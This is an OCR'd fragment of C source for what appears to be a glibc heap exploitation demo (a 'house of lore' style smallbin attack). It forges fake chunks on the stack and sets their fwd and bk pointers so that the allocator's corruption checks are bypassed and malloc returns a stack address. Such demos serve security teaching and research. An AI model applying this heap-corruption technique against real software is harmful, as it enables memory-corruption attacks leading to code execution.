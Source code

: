 ```c
  fprintf(stderr, "stack_buffer_2 at %p\n", (void*)stack_buffer_2);



  fprintf(stderr, "Create a fake chunk on the stack");

  fprintf(stderr, "Set the fwd pointer to the victim_chunk in order to bypass the check of small bin corrupted"

         "in second to the last malloc, which putting stack address on smallbin list\n");

  stack_buffer_1[0] = 0;

  stack_buffer_1[1] = 0;

  stack_buffer_1[2] = victim_chunk;



  fprintf(stderr, "Set the bk pointer to stack_buffer_2 and set the fwd pointer of stack_buffer_2 to point to stack_buffer_1 "

         "in order to bypass the check of small bin corrupted in last malloc, which returning pointer to the fake "

         "chunk on stack");

  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;

  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;

  

  fprintf(stderr, "Allocating another large chunk in order to avoid consolidating the top chunk with"
         "the small one during the free()\n");

  void *p5 = malloc(1000);

  fprintf(stderr, "Allocated the large chunk on the heap at %p\n", p5);





  fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);

  free((void*)victim);



  fprintf(stderr, "\nIn the unsorted bin the victim's fwd and bk pointers are nil\n");

  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);

  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);



  fprintf(stderr, "Now performing a malloc that can't be handled by the UnsortedBin, nor the small bin\n");

```
